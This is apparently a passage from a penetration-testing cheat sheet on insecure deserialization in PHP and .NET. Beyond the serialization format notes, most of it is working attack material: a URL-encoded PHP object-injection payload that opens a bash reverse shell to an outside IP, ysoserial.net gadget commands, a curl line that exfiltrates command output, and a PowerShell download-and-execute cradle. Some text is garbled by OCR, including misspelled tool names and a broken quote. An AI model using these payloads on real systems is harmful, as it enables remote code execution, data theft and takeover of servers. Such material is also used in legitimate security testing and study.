 ```bash
```

#### PHP

serialized data format:
   NULL N;
   true b:1;
   false b:0;
   42 i:42;
   42.3789 d:42.378900000000002;
            "Precision controlled by serialize_precision ini setting (default 17)",
   \"abcd\" s:4:\"abcd\";
   resource i:0;
   [10, 11, 12] a:3:{i:0;i:10;i:1;i:11;i:2;i:12;}

PHP function to serialize and unserialize data:

```php
$string = serialize($myvar);
$backtomyvar = unserialize($string);
var_dump($backtomyvar);

# if contains special character URL encode payload
# example of bash reverse shell
# O%3A18%3A%22PHPObjectInjection%22%3A1%3A%7Bs%3A6%3A%22inject%22%3Bs%3A71%3A%22system%28%27%2Fbin%2Fbash+-c+%5C%27bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.104.25.2%2F54321+0%3E%261%5C%27%27%29%3B%22%3B%7D
```

#### .NET

BinaryFormatter
DataContractSerializer
NetDataContractSeroalizer
XML Serialization
Serialized .NET data can be found in the VIEWSTATE Parameter of an HTTP request
ysoserial .NET:
<https://github.com/pwntester/ysoserial.net/>
examples:
```bash
soserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c 'powershell.exe Invoke-WebRequest -Uri <http://10.10.11.3:9000/abcdabcdabc>

ysoserial.exe -f SoapFormatter -g TextFormattingRunProperties -c 'cmd /c calc.exe' -o raw
```

out-of-band data exfiltration via command execution:
```bash
nano payload.txt
$c=whoami;curl http://IP:PORT/$c
```

ysoserial payload:
```bash
powershell -exec Bypass -C \"IEX (New-Object Net.WebClient).DownloadString('http://IP:PORT/payload.txt')\"
```
notes:
As said before, Soap Body tags should be removed: <SOAP-ENV:Body>

